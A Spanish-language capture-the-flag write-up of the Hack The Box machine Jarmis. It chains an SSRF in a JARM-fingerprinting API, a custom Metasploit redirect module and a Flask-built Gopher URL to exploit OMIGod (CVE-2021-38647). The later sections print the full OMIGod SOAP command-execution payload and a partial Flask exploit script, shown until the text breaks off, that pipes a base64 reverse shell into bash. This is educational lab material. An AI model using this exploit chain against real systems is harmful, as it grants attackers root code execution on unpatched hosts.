<p align="center">

</p>

El análisis del sistema revela un servicio Linux que expone únicamente dos superficies iniciales: un servidor SSH y una aplicación web que implementa una API dedicada a la obtención y clasificación de firmas JARM. Esta API consulta la configuración TLS del servidor indicado, genera su huella criptográfica y la contrasta con una base de datos interna. Cuando la firma coincide con un registro catalogado como malicioso, el servicio activa una fase adicional de inspección que consiste en establecer una conexión suplementaria para obtener metadatos del servidor remoto.

La presencia de esta conexión adicional permite identificar un comportamiento susceptible de explotación: la API realiza solicitudes salientes hacia destinos arbitrarios, lo que habilita un vector de Server Side Request Forgery (SSRF). Mediante este SSRF es posible enumerar los puertos internos del sistema, revelando la presencia del servicio Open Management Infrastructure (OMI) en uno de ellos. OMI es vulnerable a OMIGod, una vulnerabilidad crítica que permite la ejecución remota de código con privilegios de root mediante una única petición POST con un cuerpo SOAP XML especialmente construido.

La explotación completa se articula encadenando la solicitud suplementaria generada por la API con un mecanismo de redirección controlado por el analista. Este comportamiento puede reproducirse mediante un servidor Flask que recibe la conexión de metadatos y la transforma en una petición POST encapsulada en un esquema Gopher, permitiendo enviar el payload SOAP hacia el puerto interno donde reside OMI y obtener una reverse shell con privilegios elevados.

Como vía alternativa, también es posible interceptar y redirigir la conexión suplementaria manipulando la capa de red del sistema mediante reglas selectivas en el firewall. Esta aproximación, basada en NAT y selección estadística de paquetes, permite capturar exclusivamente el flujo TLS adicional sin interferir con las diez conexiones del fingerprinting JARM, desviándolo hacia un servicio de escucha controlado por el analista. Esta variante ofrece una solución minimalista y transparente que reproduce el comportamiento necesario para desencadenar el vector SSRF sin depender de herramientas externas.

<p align="center"><strong><u>Enumeración</u></strong></p>

La dirección IP de la máquina víctima es 10.129.95.238. Por tanto, envié 5 trazas ICMP para verificar que existe conectividad entre las dos máquinas.



Una vez que identificada la dirección IP de la máquina objetivo, utilicé el comando nmap -p- -sS -sC -sV --min-rate 5000 -vvv -Pn 10.129.95.238 -oN scanner_jarmis para descubrir los puertos abiertos y sus versiones:

- (-p-): realiza un escaneo de todos los puertos abiertos.
- (-sS): utilizado para realizar un escaneo TCP SYN, siendo este tipo de escaneo el más común y rápido, además de ser relativamente sigiloso ya que no llega a completar las conexiones TCP. Habitualmente se conoce esta técnica como sondeo de medio abierto (half open). Este sondeo consiste en enviar un paquete SYN, si recibe un paquete SYN/ACK indica que el puerto está abierto, en caso contrario, si recibe un paquete RST (reset), indica que el puerto está cerrado y si no recibe respuesta, se marca como filtrado.
- (-sC): utiliza los scripts por defecto para descubrir información adicional y posibles vulnerabilidades. Esta opción es equivalente a --script=default. Es necesario tener en cuenta que algunos de estos scripts se consideran intrusivos ya que podría ser detectado por sistemas de detección de intrusiones, por lo que no se deben ejecutar en una red sin permiso.
- (-sV): Activa la detección de versiones. Esto es muy útil para identificar posibles vectores de ataque si la versión de algún servicio disponible es vulnerable. 
- (--min-rate 5000): ajusta la velocidad de envío a 5000 paquetes por segundo.
- (-Pn): asume que la máquina a analizar está activa y omite la fase de descubrimiento de hosts.



<p align="center"><strong><u>Web Enumeration</u></strong></p>

Tras el acceso inicial a la superficie web expuesta por el activo, la interfaz permanecía indefinidamente anclada en un estado de Loading…, lo que sugería una dependencia de recursos externos o una resolución incompleta del dominio. 

 

Ante esta anomalía, se procedió a un análisis más granular del tráfico generado por el navegador, inspeccionando las peticiones consignadas en la pestaña Network. Allí se identificó una solicitud GET dirigida al endpoint http://jarmis.htb, lo que evidenciaba que el servicio web delegaba parte de su funcionalidad en dicho dominio.

  

Con el fin de normalizar la resolución DNS y garantizar la correcta interacción con el servicio, se incorporó una entrada específica para jarmis.htb en el archivo /etc/hosts. 

 

Tras esta modificación, el acceso al dominio reveló una plataforma que se autodenominaba Jarmis, presentada como un motor de búsqueda sustentado en mecanismos de identificación criptográfica.

 

En este punto resultó pertinente contextualizar el concepto de JARM, dado que la nomenclatura del servicio parecía aludir directamente a esta tecnología. JARM constituye una técnica de fingerprinting activo orientada a la caracterización de servidores que implementan Transport Layer Security (TLS). Su funcionamiento se basa en la emisión de un conjunto de diez paquetes Client Hello especialmente diseñados, cada uno con variaciones en parámetros críticos del protocolo. 

El servidor objetivo responde con sus correspondientes Server Hello, cuyas propiedades —versiones soportadas, suites criptográficas negociadas, extensiones, comportamiento ante anomalías sintácticas— son agregadas y posteriormente sometidas a un proceso de hashing determinista. El resultado es una huella criptográfica única que permite discriminar implementaciones TLS, identificar configuraciones heterogéneas, detectar infraestructuras correlacionadas y, en determinados escenarios, inferir la presencia de dispositivos intermedios o comportamientos anómalos.

La aparición de un servicio web que se autodefine como “Search Engine” pero que opera sobre la semántica de JARM constituye un indicio preliminar de que la máquina podría estar instrumentalizando esta tecnología como vector funcional o como superficie de ataque. En consecuencia, la interacción con Jarmis no solo se convierte en un paso necesario para la enumeración, sino también en un potencial punto de entrada para la explotación, especialmente si la implementación del fingerprinting presenta desviaciones respecto al estándar o expone mecanismos internos no previstos para su consumo público.

Una vez cargada la interfaz de Jarmis, el menú desplegable del motor de búsqueda reveló tres modalidades de consulta, cada una aparentemente vinculada a un mecanismo interno distinto de interacción con el backend. Con el objetivo de caracterizar su comportamiento, se procedió a enumerar sistemáticamente cada opción.

 

La primera modalidad, basada en la búsqueda por ID, aceptaba valores enteros y devolvía un objeto JSON que contenía la huella JARM asociada al identificador solicitado. Este comportamiento evidenciaba que el servicio mantenía un repositorio interno de firmas previamente generadas, accesible sin autenticación y susceptible de enumeración exhaustiva. La estructura del JSON, junto con la ausencia de restricciones en la entrada, sugería que el backend operaba como un agregador de fingerprints, probablemente almacenados tras ejecuciones previas del motor.



La segunda modalidad, denominada Fetch Jarm, presentaba una interfaz significativamente más simple: un único campo destinado a recibir una cadena de texto. La simplicidad del parámetro, unida a la semántica del servicio, permitía inferir que el backend esperaba un endpoint remoto sobre el cual ejecutar la lógica de fingerprinting. Dado que JARM es intrínsecamente un mecanismo de identificación activa de servidores TLS, resultaba razonable concluir que el campo debía aceptar un URL o, al menos, un host accesible mediante el protocolo TLS.

   

Para validar esta hipótesis y determinar si el servicio realizaba conexiones salientes hacia el recurso proporcionado, se introdujo la dirección IP del atacante en el campo de entrada. Con el fin de monitorizar cualquier intento de conexión desde el host objetivo, se habilitó un listener en el puerto 443/TCP, empleando ncat en modo SSL para emular un servidor TLS mínimo y capturar cualquier interacción entrante.

 

El resultado confirmó la sospecha inicial: inmediatamente después de enviar la solicitud, el servidor de Jarmis estableció una conexión hacia la dirección indicada, evidenciando que el backend ejecutaba de forma activa el proceso de fingerprinting sobre el host proporcionado. 

 

El análisis de las conexiones entrantes reveló un comportamiento característico del algoritmo JARM. Este mecanismo, en su implementación estándar, genera la huella criptográfica a partir de diez intentos de negociación TLS, cada uno con variaciones específicas en los parámetros del Client Hello. 

   

Sin embargo, al emplear ncat en modo SSL sin configuración adicional, únicamente se registró una única conexión en nuestro listener. Esta discrepancia se explica por la naturaleza pasiva de ncat: al no emitir respuestas válidas para las sucesivas negociaciones, el servidor objetivo interpreta los intentos como fallidos y los marca con el código 000, lo que justifica la presencia de nueve tríadas de ceros en la firma JARM devuelta por el servicio.

Para obtener una visión más completa del comportamiento del backend, se habilitó el parámetro -k en ncat, permitiendo la aceptación de múltiples conexiones consecutivas. Bajo esta configuración, el listener capturó los diez intentos de conexión correspondientes al proceso completo de fingerprinting. Este resultado confirmó que el servicio Jarmis ejecuta la lógica JARM de manera íntegra, replicando fielmente la secuencia de negociaciones TLS que define la huella criptográfica.

  

Un aspecto llamativo emergió al comparar los objetos JSON generados en ambas pruebas. En la segunda ejecución —aquella en la que se capturaron los diez intentos— el JSON devuelto por el servicio resultó notablemente más breve, omitiendo campos como ismalicious y server. Esta ausencia sugiere que el backend aplica una lógica condicional en función de la calidad o completitud de las respuestas obtenidas durante el fingerprinting. 

En otras palabras, cuando la interacción con el host remoto no produce un conjunto de atributos suficientemente rico, el servicio complementa la firma con metadatos adicionales; mientras que, ante una secuencia completa de negociaciones, se limita a devolver la huella estricta sin anotaciones auxiliares.

 

La divergencia entre ambas firmas permitió realizar una comprobación adicional: al consultar la base de datos interna mediante la opción de búsqueda por ID, la firma correspondiente a la primera interacción —la incompleta, con nueve tríadas de ceros— sí se encontraba registrada, mientras que la segunda, derivada de la secuencia completa de diez conexiones, no figuraba en el repositorio. 

Este comportamiento sugiere que el backend almacena únicamente aquellas firmas que cumplen ciertos criterios de clasificación o que han sido generadas en contextos específicos, lo que abre la puerta a hipótesis sobre mecanismos internos de validación, categorización o incluso detección de comportamientos anómalos.



<p align="center"><strong><u>Sub-Directory Enumeration</u></strong></p>

Con el objetivo de ampliar la superficie de enumeración y detectar posibles rutas internas no expuestas en la interfaz principal, se procedió a realizar un barrido exhaustivo de directorios mediante gobuster, empleando diccionarios orientados a aplicaciones web y configuraciones que permiten identificar endpoints ocultos o no indexados. 

    

El análisis reveló la existencia del endpoint /docs, el cual contenía la documentación formal de la API de Jarmis. Este hallazgo resultó especialmente relevante, ya que la documentación ofrecía una visión explícita de las capacidades del backend y de los parámetros aceptados por cada uno de los servicios expuestos.

  

La revisión de la API confirmó que el endpoint /search/id/{jarm_id} replicaba exactamente el comportamiento observado en la interfaz gráfica: aceptaba un identificador numérico y devolvía la firma JARM correspondiente. 

Por su parte, /search/signature/ admitía una cadena arbitraria y un parámetro opcional denominado max_results, lo que sugería la existencia de un mecanismo de búsqueda por similitud o correlación entre firmas, posiblemente destinado a identificar servidores con configuraciones criptográficas afines.

  

El endpoint /fetch, sin embargo, proporcionaba información adicional de especial interés. La documentación describía su funcionalidad como “grab metadata if malicious”, una frase que, pese a su concisión, implicaba una lógica interna más compleja.

Para que el backend pueda “obtener metadatos” de un servidor remoto, no basta con ejecutar el proceso de fingerprinting JARM —que se limita a la negociación TLS—, sino que es necesario establecer una conexión real y sostenida con el host objetivo. Esto implica que el servicio Jarmis no solo realiza las diez negociaciones TLS propias del fingerprinting, sino que además puede ejecutar solicitudes adicionales cuando la firma resultante es clasificada como maliciosa.

  

La documentación también clarificaba un aspecto observado empíricamente en las pruebas anteriores: cuando la firma JARM generada no se encuentra en la base de datos interna, los campos ismalicious y server no son incluidos en el objeto JSON devuelto. En consecuencia, si ismalicious no está establecido explícitamente como true, la API no ejecutará la fase de obtención de metadatos, tal y como se detalla en la documentación. Este comportamiento confirma que el backend aplica una lógica condicional basada en la clasificación de la firma, y que únicamente en escenarios donde la huella coincide con patrones previamente catalogados como maliciosos se desencadena la fase adicional de interacción con el servidor remoto.

Este diseño introduce una diferenciación crítica entre firmas conocidas y desconocidas: las primeras activan mecanismos avanzados de inspección, mientras que las segundas se limitan a la devolución de la huella criptográfica. Esta distinción abre la puerta a vectores de explotación basados en la manipulación de firmas, la inducción de comportamientos condicionales y la potencial instrumentalización del backend para generar tráfico saliente hacia destinos arbitrarios.

<p align="center"><strong>Localhost TLS Port Scan</strong></p>

Tras identificar la lógica condicional del endpoint /fetch, se procedió a explorar su potencial como vector de enumeración interna. Dado que el servicio ejecuta conexiones salientes hacia el destino proporcionado, resultaba razonable evaluar si esta funcionalidad podía instrumentalizarse para sondear puertos internos del propio host comprometido, aprovechando la capacidad del backend para interpretar la disponibilidad de servicios remotos.

    

Al suministrar como destino la dirección del propio servidor objetivo, el comportamiento del endpoint reveló un patrón significativo: cuando el puerto consultado se encontraba abierto, el JSON devuelto incluía el campo endpoint, mientras que, en caso contrario, dicho campo no aparecía. Esta ausencia permitía inferir el estado del puerto sin necesidad de recibir un error explícito. Para facilitar la enumeración, se aplicó un proceso de fuzzing sobre localhost, filtrando las respuestas que contenían "endpoint":"null" mediante la opción --hs, lo que permitió concentrarse exclusivamente en los puertos accesibles.

   

El resultado confirmó la presencia de los puertos 22/TCP y 80/TCP, ya conocidos por la fase inicial de reconocimiento. Sin embargo, emergieron dos puertos adicionales: 5985/TCP y 5986/TCP. En entornos Windows, estos puertos se asocian habitualmente a WinRM (Windows Remote Management), pero en sistemas Linux suelen corresponder a la implementación de Open Management Interface (OMI), un componente utilizado para la gestión remota en infraestructuras híbridas y servicios cloud.

La identificación de estos puertos motivó una investigación adicional sobre vulnerabilidades asociadas a OMI. Una búsqueda preliminar reveló CVE 2021 38647, conocida como OMIGod, una vulnerabilidad crítica que afectó a la implementación de OMI desarrollada por Microsoft. Este fallo, ampliamente documentado, se originaba en una gestión defectuosa de las cabeceras de autenticación: el servicio aceptaba peticiones POST sin validar adecuadamente la presencia de credenciales, lo que permitía la ejecución remota de código con privilegios de root mediante una única solicitud especialmente construida.

La explotación de CVE-2021-38647 requiere la capacidad de emitir una petición POST directamente al servicio OMI. Sin embargo, en este escenario, los puertos 5985 y 5986 se encuentran expuestos únicamente en la interfaz interna del host, lo que imposibilita su acceso directo desde el exterior. En consecuencia, resulta imprescindible identificar un mecanismo que permita redirigir o encapsular solicitudes hacia puertos internos, lo que nos conduce a evaluar la existencia de endpoints vulnerables a Server Side Request Forgery (SSRF) dentro de la API de Jarmis.

Dado que el endpoint /fetch ya ha demostrado la capacidad de inducir conexiones salientes hacia destinos arbitrarios, la siguiente fase del análisis se orienta a determinar si esta funcionalidad puede ampliarse para emitir solicitudes POST, o si existe algún otro endpoint que permita manipular la naturaleza de la petición enviada por el backend. La identificación de un SSRF con capacidad de modificar el método HTTP constituiría un vector de explotación directo para desencadenar OMIGod y obtener ejecución remota de código con privilegios elevados.

<p align="center"><strong>Dumping the database</strong></p>

Con el objetivo de profundizar en la lógica interna del servicio y detectar posibles vectores de explotación indirecta, se procedió a volcar íntegramente la base de datos de firmas JARM mantenida por el backend. Mediante una serie de consultas iterativas —determinadas inicialmente por prueba y error— se estableció que el repositorio contenía 222 registros, cada uno accesible a través del endpoint /search/id/{jarm_id}. Para automatizar la extracción, se empleó un bucle en bash que solicitaba secuencialmente cada identificador y almacenaba la respuesta en un archivo local.

    

Una vez recopilados los registros, se utilizó la herramienta jq para normalizar y estructurar la salida JSON, permitiendo una inspección más precisa de los campos relevantes. Dado que la API únicamente establece conexiones adicionales para la obtención de metadatos cuando la firma está catalogada como maliciosa, el análisis se centró exclusivamente en los registros cuyo campo ismalicious figuraba como true. 

    

Para cuantificar estos casos, se empleó la opción -c de jq, que condensa cada objeto en una única línea, y posteriormente wc -l, obteniendo así el número exacto de firmas clasificadas como maliciosas.

    

La inspección detallada de estos registros reveló un hallazgo particularmente significativo: uno de los JARM maliciosos estaba asociado explícitamente a Metasploit. Este hecho implicaba que, si el backend detectaba una firma coincidente con la huella generada por un servidor Metasploit, activaría automáticamente la fase de obtención de metadatos, estableciendo una conexión hacia el servidor controlado por el atacante. En otras palabras, la presencia de esta firma en la base de datos convertía a Metasploit en un señuelo legítimo para inducir tráfico saliente desde el host objetivo.

 

Para validar esta hipótesis, se configuró un listener en Metasploit utilizando el módulo exploit/multi/handler con el payload windows/meterpreter/reverse_https, estableciendo LPORT=443 para replicar el comportamiento observado en pruebas anteriores. Paralelamente, se inició una captura en Wireshark, con el fin de contabilizar los flujos TCP generados durante la interacción, aun cuando el contenido de las comunicaciones TLS permaneciera cifrado.

  

Al solicitar la generación de la firma JARM correspondiente al servidor Metasploit, el backend no produjo ninguna sesión interactiva en la consola de Metasploit, lo que indica que la conexión establecida por Jarmis no desencadena la ejecución del payload. Sin embargo, la respuesta JSON devuelta por la aplicación resultó reveladora: el campo server aparecía poblado y el atributo ismalicious figuraba como true, confirmando que la firma había sido reconocida como maliciosa y que el backend había ejecutado la fase de obtención de metadatos.

  

La captura en Wireshark corroboró este comportamiento: se registraron 12 flujos TCP. El primero correspondía a la solicitud inicial enviada por el atacante al servicio Jarmis, mientras que los restantes representaban las conexiones salientes generadas por el backend hacia el servidor Metasploit. Este patrón confirma que el servicio ejecuta múltiples interacciones adicionales cuando detecta una firma catalogada como maliciosa, lo que constituye un vector de explotación potencialmente valioso para pivotar hacia servicios internos o inducir tráfico arbitrario desde el host comprometido.

  

La captura en Wireshark permitió observar que, además del flujo inicial correspondiente a la solicitud enviada al servicio Jarmis, se generaban 11 flujos TLS adicionales. Este número resultaba particularmente significativo, dado que el algoritmo JARM únicamente requiere 10 negociaciones TLS para construir la huella criptográfica. La presencia de un undécimo flujo sugería la existencia de una interacción suplementaria, no vinculada al proceso estándar de fingerprinting.

  

La documentación de la API proporcionaba la clave interpretativa: en el endpoint /fetch, se especifica que, cuando una firma es clasificada como maliciosa, el backend procede a obtener metadatos del servidor remoto, lo que implica el establecimiento de una conexión TCP completa, más allá de las negociaciones TLS propias del fingerprinting. En consecuencia, el undécimo flujo TLS observado en la captura corresponde inequívocamente a esta fase adicional de inspección, activada únicamente cuando la firma coincide con un patrón catalogado como malicioso en la base de datos interna.

Con el fin de analizar la naturaleza de esta interacción suplementaria, se optó por emplear el módulo auxiliary/server/capture/http de Metasploit, diseñado para capturar solicitudes HTTP(S). Se habilitó SSL y se configuró el puerto del servidor (srvport) en 443, replicando las condiciones de las pruebas anteriores. 

  

Al solicitar nuevamente la generación de la firma JARM, el servidor Metasploit recibió un callback, lo que confirmó que el backend había establecido la conexión adicional destinada a la obtención de metadatos.

La respuesta JSON devuelta por Jarmis en esta ocasión resultó especialmente reveladora: aunque el campo ismalicious no figuraba explícitamente como true, el atributo server aparecía presente —aunque vacío— y la heurística del servicio sugería que el host podría estar asociado a Metasploit.



Este comportamiento indica que, incluso cuando la firma no es categorizada formalmente como maliciosa, el backend puede activar parcialmente la lógica de inspección si detecta patrones que sugieren la presencia de un servidor Metasploit, lo que refuerza la hipótesis de que el servicio implementa mecanismos de correlación más complejos que una simple coincidencia exacta de firmas.

La captura en Wireshark volvió a registrar 11 flujos, lo que confirma que la interacción suplementaria se produce de manera consistente siempre que el backend decide obtener metadatos del servidor remoto. Dado que esta undécima conexión no forma parte del proceso de fingerprinting, sino de una fase adicional de inspección, se convierte en un candidato evidente para un vector de Server Side Request Forgery (SSRF). Si se lograra manipular el destino o la naturaleza de esta solicitud adicional, sería posible redirigirla hacia servicios internos del host comprometido, incluyendo aquellos que requieren métodos HTTP específicos —como el servicio OMI afectado por CVE 2021 38647— y que no son accesibles desde el exterior.

La siguiente fase del análisis, por tanto, se orienta a identificar un mecanismo que permita interceptar, redirigir o manipular esta undécima solicitud, con el objetivo de determinar si puede instrumentalizarse como un canal SSRF capaz de emitir peticiones POST hacia los puertos internos 5985 y 5986, habilitando así la explotación del vector OMIGod.

<p align="center"><strong>SSRF</strong></p>

Con el objetivo de analizar en profundidad la naturaleza del undécimo flujo TLS —el que no forma parte del proceso estándar de fingerprinting JARM— se planteó la posibilidad de interceptar y redirigir dicha solicitud para determinar su estructura, su método HTTP y su potencial como vector de SSRF. Dado que los módulos existentes de Metasploit no contemplan esta funcionalidad de forma nativa, se procedió a desarrollar un módulo personalizado que permitiera capturar la petición y redirigirla hacia un destino arbitrario bajo control del atacante.

 

Los módulos de Metasploit se almacenan en ~/.msf4/modules, y dado que la ejecución de msfconsole se realizaría con privilegios elevados para escuchar en puertos bajos, se trabajó directamente en /root/.msf4. Se creó un directorio específico para alojar el nuevo módulo y, como base, se tomó auxiliary/server/capture/http_basic, cuya estructura resultaba idónea para instrumentar la lógica de captura y redirección.

 

El módulo original contenía cinco funciones principales: initialize, responsable de definir la metadata; support_ipv6, que simplemente devolvía false; run, encargado de inicializar variables y delegar en exploit; report_creds, orientado al almacenamiento de credenciales; y on_request, que gestionaba las solicitudes HTTP(S) entrantes.

 

Dado que el objetivo del módulo era exclusivamente interceptar y redirigir la petición, se eliminó por completo la función report_creds, irrelevante en este contexto. La lógica crítica residía en on_request, donde se implementó la instrucción de redirección. Se suprimió la verificación de autenticación presente en el módulo original y se redujo la función a un comportamiento mínimo: redirigir la solicitud entrante siempre que el parámetro RedirectURL estuviera definido. Esta modificación permitía capturar cualquier petición generada por el backend de Jarmis y reenviarla hacia un servidor controlado por el atacante.

 

Tras actualizar la metadata y los parámetros configurables del módulo, se reinició Metasploit —o alternativamente se ejecutó reload_all— para que el nuevo módulo quedara registrado en el framework. 

  

A continuación, se configuró el módulo personalizado para redirigir las solicitudes hacia el propio host del atacante.

 

En una segunda consola, se levantó un servidor HTTP simple mediante Python, destinado a recibir la petición redirigida. 

  

Al solicitar nuevamente la generación de la firma JARM desde Jarmis, el módulo personalizado recibió un callback, lo que confirmó que la undécima solicitud había sido interceptada correctamente. Instantes después, el servidor Python también registró una conexión entrante, evidenciando que la redirección se había ejecutado con éxito.

  

Este comportamiento constituye una validación inequívoca: la undécima solicitud generada por el backend de Jarmis es redirigible y, por tanto, manipulable, lo que habilita un vector de Server Side Request Forgery plenamente funcional. En consecuencia, el atacante dispone ahora de un mecanismo para forjar solicitudes desde el servidor objetivo hacia cualquier destino, incluyendo servicios internos inaccesibles desde el exterior. 

Dado que la explotación de OMIGod (CVE 2021 38647) requiere la emisión de una petición POST hacia el servicio OMI en los puertos 5985/5986, la capacidad de redirigir esta undécima solicitud constituye el puente necesario para desencadenar la vulnerabilidad y obtener ejecución remota de código con privilegios de root.

<p align="center"><strong>OMIGod</strong></p>

La explotación de OMIGod (CVE 2021 38647) exige la emisión de una petición POST hacia el servicio OMI, alojado en los puertos internos 5985/TCP (sin TLS) y 5986/TCP (con TLS). El proof of concept disponible en GitHub confirma que el vector de ataque consiste en enviar un cuerpo SOAP XML especialmente construido, donde el elemento <p:command> contiene la instrucción arbitraria que será ejecutada con privilegios de root en el host remoto. 

  

El payload se inserta dinámicamente mediante el método .format(), lo que permite adaptar la carga útil a las necesidades del atacante.
```xml
DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""
```

Dado que el servicio OMI no es accesible desde el exterior, la única vía viable para desencadenar la vulnerabilidad consiste en instrumentalizar el SSRF previamente identificado en el undécimo flujo TLS generado por Jarmis. Sin embargo, este flujo únicamente se activa cuando la firma JARM coincide con un registro catalogado como malicioso en la base de datos interna. Por ello, resulta imprescindible encadenar la solicitud a través de Metasploit, cuya firma sí está presente en el repositorio, y no interactuar directamente con un servidor Flask, cuya huella no desencadenaría la fase de obtención de metadatos.

  

El siguiente desafío consiste en transformar esta solicitud suplementaria en una petición POST, ya que el backend de Jarmis, al generar la undécima conexión, utiliza un User Agent identificado como curl, lo que abre la puerta a redirigir la solicitud hacia un esquema Gopher, capaz de encapsular peticiones arbitrarias, incluyendo POST con cuerpo XML. No obstante, para facilitar la depuración y mantener un control granular sobre la lógica de redirección, se optó por una arquitectura en cadena:

1.	Jarmis →
2.	módulo personalizado de Metasploit →
3.	servidor Flask →
4.	servicio OMI interno en localhost:5985.

Para ello, se configuró Metasploit de modo que redirigiera la solicitud hacia un servidor Flask escuchando en 8443/TCP con TLS. El servidor Flask, implementado de forma minimalista, aceptaba la conexión entrante y la reenviaba hacia un destino arbitrario. La configuración incluía ssl_context para habilitar TLS, host='0.0.0.0' para permitir conexiones externas y debug=True para facilitar la modificación del código sin reiniciar la aplicación.



Una vez desplegado el servidor Flask, se verificó la cadena de redirección: al solicitar la generación de la firma JARM desde Jarmis, la petición era interceptada por el módulo personalizado de Metasploit, reenviada al servidor Flask y finalmente redirigida hacia un listener nc en el puerto 80 del atacante. La captura confirmó que la cadena funcionaba correctamente y que la solicitud podía ser desviada hacia cualquier destino.

 

Este resultado constituye una validación crítica: la solicitud suplementaria generada por Jarmis es completamente redirigible y manipulable, lo que habilita un vector de SSRF plenamente funcional. La arquitectura en cadena permite ahora transformar la solicitud en un POST dirigido al puerto interno 5985, encapsulando el cuerpo SOAP XML necesario para explotar OMIGod. 

<p align="center"><strong>Gopher</strong></p>

La fase final de instrumentación del vector SSRF exige transformar la solicitud suplementaria generada por Jarmis en una petición POST plenamente controlada, capaz de encapsular el cuerpo SOAP XML necesario para desencadenar la vulnerabilidad OMIGod. En este contexto, el protocolo Gopher adquiere una relevancia estratégica: al carecer de cabeceras y tratar el contenido íntegro del URL como cuerpo de la solicitud, permite construir manualmente cualquier estructura HTTP, incluyendo peticiones POST con contenido arbitrario. Esta característica lo convierte en un mecanismo idóneo para encapsular el payload SOAP requerido por CVE 2021 38647.

 

Antes de proceder a la redirección hacia el servicio OMI interno, se verificó el funcionamiento del esquema Gopher realizando solicitudes controladas hacia localhost. Para ello, se sustituyó el valor de RedirectURL en el módulo personalizado de Metasploit por un URL Gopher que contenía una petición HTTP construida manualmente. Al enviar nuevamente la solicitud desde Jarmis, la cadena de redirección culminó en una conexión entrante en el listener local, confirmando que el backend aceptaba el esquema Gopher y que la solicitud era transmitida íntegramente.

 

Durante esta prueba emergió un detalle técnico de especial importancia. Al repetir la solicitud y volcar la respuesta a un archivo, se observó que el contenido final incluía los bytes 0x0d0a (\r\n). 

  

Esta secuencia, correspondiente a un retorno de carro y salto de línea, implica que el cuerpo de la petición contiene dos bytes adicionales respecto al contenido visible. En consecuencia, cualquier cálculo del campo Content-Length en la petición POST debe incorporar estos dos bytes suplementarios. De lo contrario, el servicio OMI rechazará la solicitud por discrepancia en la longitud declarada, invalidando el intento de explotación.

   

Este hallazgo es crítico para la fase siguiente: la construcción del URL Gopher que encapsulará la petición POST dirigida a localhost:5985. La precisión en el cálculo de la longitud del cuerpo es indispensable para evitar errores de parsing en el servicio OMI y garantizar que la carga SOAP XML sea procesada correctamente. Con la cadena de redirección plenamente operativa y el comportamiento del esquema Gopher validado, el entorno está preparado para forjar la petición POST definitiva que desencadenará la vulnerabilidad OMIGod mediante SSRF.

<p align="center"><strong>Remote Shell</strong></p>

Para integrar el proof of concept de OMIGod en la cadena de explotación construida hasta este punto, se procedió a adaptar el payload SOAP XML utilizado en la vulnerabilidad. El POC original define una variable DATA que contiene la estructura completa de la petición, incluyendo el elemento <p:command>, donde se inserta la instrucción arbitraria que será ejecutada con privilegios de root. Este campo se sustituyó por {}, permitiendo rellenarlo dinámicamente mediante .format(), lo que facilita la incorporación de cargas útiles personalizadas.

```python
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

DATA = """<s:Envelope xmlns:s="http://www.w3.org/2003/05/soap-envelope" xmlns:a="http://schemas.xmlsoap.org/ws/2004/08/addressing" xmlns:h="http://schemas.microsoft.com/wbem/wsman/1/windows/shell" xmlns:n="http://schemas.xmlsoap.org/ws/2004/09/enumeration" xmlns:p="http://schemas.microsoft.com/wbem/wsman/1/wsman.xsd" xmlns:w="http://schemas.dmtf.org/wbem/wsman/1/wsman.xsd" xmlns:xsi="http://www.w3.org/2001/XMLSchema">
   <s:Header>
      <a:To>HTTP://192.168.1.1:5986/wsman/</a:To>
      <w:ResourceURI s:mustUnderstand="true">http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem</w:ResourceURI>
      <a:ReplyTo>
         <a:Address s:mustUnderstand="true">http://schemas.xmlsoap.org/ws/2004/08/addressing/role/anonymous</a:Address>
      </a:ReplyTo>
      <a:Action>http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem/ExecuteShellCommand</a:Action>
      <w:MaxEnvelopeSize s:mustUnderstand="true">102400</w:MaxEnvelopeSize>
      <a:MessageID>uuid:0AB58087-C2C3-0005-0000-000000010000</a:MessageID>
      <w:OperationTimeout>PT1M30S</w:OperationTimeout>
      <w:Locale xml:lang="en-us" s:mustUnderstand="false" />
      <p:DataLocale xml:lang="en-us" s:mustUnderstand="false" />
      <w:OptionSet s:mustUnderstand="true" />
      <w:SelectorSet>
         <w:Selector Name="__cimnamespace">root/scx</w:Selector>
      </w:SelectorSet>
   </s:Header>
   <s:Body>
      <p:ExecuteShellCommand_INPUT xmlns:p="http://schemas.dmtf.org/wbem/wscim/1/cim-schema/2/SCX_OperatingSystem">
         <p:command>{}</p:command>
         <p:timeout>0</p:timeout>
      </p:ExecuteShellCommand_INPUT>
   </s:Body>
</s:Envelope>
"""
REQUEST = """POST / HTTP/1.1\r
Host: localhost:5985\r
User-Agent: curl/7.74.0\r
Content-Length: {length}\r
Content-Type: application/soap+xml;charset=UTF-8\r
\r
{body}"""

@app.route('/')
def root():
	cmd="echo '<PAYLOAD BASE64 REVERSE SHELL'|base64 -d|bash"
	data = DATA.format(cmd)
